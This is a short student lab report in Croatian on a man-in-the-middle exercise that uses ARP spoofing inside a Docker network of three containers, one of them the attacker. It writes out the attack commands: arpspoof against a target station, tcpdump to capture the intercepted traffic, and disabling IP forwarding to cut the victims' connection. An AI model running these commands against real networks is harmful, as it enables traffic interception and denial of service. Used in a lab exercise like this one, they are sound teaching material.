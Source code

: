 # Laboratorijske vježbe 1: Man-in-the-middle attacks (ARP spoofing)

Na prvim laboratorijskim vježbama upoznali smo se s osnovnim sigurnosnim prijetnjama i ranjivostima u računalnim mrežama. Analizirali smo ranjivost *Address Resolution Protocol*a koja onome koji napada omogućuje izvođenje *man in the middle* i *denial of service* napada na računala koja imaju zajedničku lokalnu mrežu (*LAN*).

Napad smo realizirali korištenjem Docker mreže koju čine 3 containera, tj. 3 docker računala: station-1, station-2 i evil-station (napadač).

Prvi korak je bio pokretanje Windows terminal aplikacije i u njoj smo otvorili Ubuntu terminal na WSL sustavu. Napravili smo poseban direktorij gdje smo onda klonirali GitHub repozitorij naredbom: 

git clone [https://github.com/mcagalj/SRP-2021-22](https://github.com/mcagalj/SRP-2021-22)

cd SRP-2021-22/arp-spoofing   

 naredbom ušli smo u repozitorij arp-spoofing gdje se nalaze skripte [start.sh](http://start.sh) i [stop.sh](http://stop.sh) koje pozivamo za pokretanje,odnosno zaustavljanje dockera. 

Sljedeći korak bio je pokretanje shell station-1 i provjeravanje konfiguracije mrežnog sučelja:

docker exec -it station-1 bash

ifconfig -a

Zatim smo provjerili je li station-2 na istoj mreži i pokrenuli shell za nju:

ping station-2

docker exec -it station-2 bash

Idući korak je bilo ostvarivanje veze između station-1 i station-2. Station-1 = server na portu 8000

Station-2 = client na hostnameu station-1 8000.

To smo provjerili tako što smo upisivali poruke na station-1 i gledali jesu li se ispisivali na station-2, što i jesu.

Naredbe koje smo koristili za to:

docker exec -it station-2 bash

netcat -l -p 8000

netcat station-2 8000

Za napad, pokrenuli smo shell za evil-station i napravili tcpdump i arpspoof. 

Target = station-1, host = station-2

docker exec -it evil-station bash

arpspoof -t station-1 station-2

tcpdump

Na kraju smo prekinuli vezu između station-1 i station-2 naredbom:

echo 0 > /proc/sys/net/ipv4/ip_forward